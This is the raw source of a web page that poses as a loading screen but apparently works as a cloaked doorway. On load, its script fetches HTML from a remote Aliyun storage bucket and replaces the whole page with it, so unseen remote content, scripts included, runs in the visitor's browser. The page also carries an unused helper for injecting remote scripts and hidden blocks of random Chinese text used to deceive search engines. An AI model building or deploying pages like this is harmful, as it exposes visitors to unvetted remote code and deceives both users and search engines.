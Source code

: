        <!DOCTYPE html>
<html>
<head> <meta charset="utf-8" />
    <style>
        iframe {
            display: none;
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        body {
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        .B9wgDa2R8 {
            position: fixed;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            z-index: 1;
            background-color: #d8d8d8
        }

        .B9wgDa2R8 .pz7x2M63gMC {
            position: absolute;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            height: 50px;
            margin: auto
        }

        .B9wgDa2R8 .content {
            line-height: 50px;
            text-align: center
        }

        .B9wgDa2R8 .img {
            width: 100%
        }

        .B9wgDa2R8 .m6wJvj94 {
            text-align: center
        }

        .B9wgDa2R8 .m6wJvj94 span {
            display: inline-block;
            width: 6px;
            height: 50px;
            background-color: #FF5722;
            -webkit-transform: scaleY(0.4);
            transform: scaleY(0.4);
            -webkit-animation: scale 1s infinite;
            animation: scale 1s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(2) {
            -webkit-animation: scale 1s .2s infinite;
            animation: scale 1s .2s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(3) {
            -webkit-animation: scale 1s .3s infinite;
            animation: scale 1s .3s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(4) {
            -webkit-animation: scale 1s .4s infinite;
            animation: scale 1s .4s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(5) {
            -webkit-animation: scale 1s .5s infinite;
            animation: scale 1s .5s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(6) {
            -webkit-animation: scale 1s .6s infinite;
            animation: scale 1s .6s infinite
        }

        @-webkit-keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        @keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        .B9wgDa2R8 .tips {
            font-size: 1rem;
            color: #fff;
            text-align: center
        }
    </style>
</head>
<body><script>
    function loadJs(a) { var c = document.createElement("script"); c.src = a, document.body.appendChild(c);}
    function getUrlParam(name) { var reg = new RegExp("(.|&)" + name + "=([^&]*)(&|$)"); var r = window.location.href.match(reg); if (r != null) return unescape(r[2]); return null;}
    function Dget(e, t,a) {
        var n = new XMLHttpRequest;
        //n.timeout = 3000;
        n.onreadystatechange = function () {
            4 === n.readyState && (200 === n.status || 304 === n.status ? "function" == typeof t && t(n.responseText) : "function" == typeof a && a(n))
        };n.ontimeout = function (e) {
            //alert('请求超时,重新发起请求');
            //location.reload();
        };
        n.open("GET", e, !0),
            n.send(null)
    }
    var temp = getUrlParam('temp');

    //if(document.referrer){
    var temp_name = temp +'.html';
    Dget('//20200805hb.oss-cn-hangzhou.aliyuncs.com/0904/sztwoxxsqwefer.html',function(res){
        var doc=document.open("text/html","replace")
        doc.write(res);
        doc.close()
    })
    //}

</script> 
<a  href='#' style='display:none'>7Ckrj3K98IgBvV42xH3d4lmgrrH</a>
<b style='display:none' >地桥号怠厕崇奈倡违酿钵房琶归卯堡陶窘滇废唤彭戮粕棘菊疆搪咐赴辟贤磋捕芹凤交架吠稀桨</b>
<b style='display:none' >地桥号怠厕崇奈倡违酿钵房琶归卯堡陶窘滇废唤彭戮粕棘菊疆搪咐赴辟贤磋捕芹凤交架吠稀桨</b>
<h1 style='display:none' >皋酪瞬却痴味惟伙墨坦檬弟司淖希磁</h1>
<b style='display:none' >地桥号怠厕崇奈倡违酿钵房琶归卯堡陶窘滇废唤彭戮粕棘菊疆搪咐赴辟贤磋捕芹凤交架吠稀桨</b>
<span style='display:none'>泵诞为隙几巷贺市筷甜喘累骆桨爬阮辈跺首嫁惕粕胯牟涵戈尼恒态栖舵肝汐柬沛栋纳喀交书镰跋扁稍萍吐广骋隋霞滦屁付书拭洛模角汹涸崇顽蔑别叮渡赖</span>
<p  style='display:none'>玫特稍肝嘶卉吾秃盟翔猩氓巫扣疗聪文搐浦奖樊恫沟讣坷括竞酮挪抡涟捅咳摹躬蹦杠参信痪碱创团勿姆拢粉谴棱捅景朽拒细团怕汗挛靖赁农猩衫堡权和衬祈渴刮柒娥饥享觅膳巷薪草划宽请投撇究瘟界闺抹沧腐就省胺</p>
<p  style='display:none'>玫特稍肝嘶卉吾秃盟翔猩氓巫扣疗聪文搐浦奖樊恫沟讣坷括竞酮挪抡涟捅咳摹躬蹦杠参信痪碱创团勿姆拢粉谴棱捅景朽拒细团怕汗挛靖赁农猩衫堡权和衬祈渴刮柒娥饥享觅膳巷薪草划宽请投撇究瘟界闺抹沧腐就省胺</p><div class="B9wgDa2R8">
    <div class="pz7x2M63gMC">
        <div class="m6wJvj94">
            <p style="font-size:50px;color:#FF5722; padding-top: 18%; margin:-28% auto">正在加载...</p>

            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span></div>

    </div>
</div>
</body>

</html>
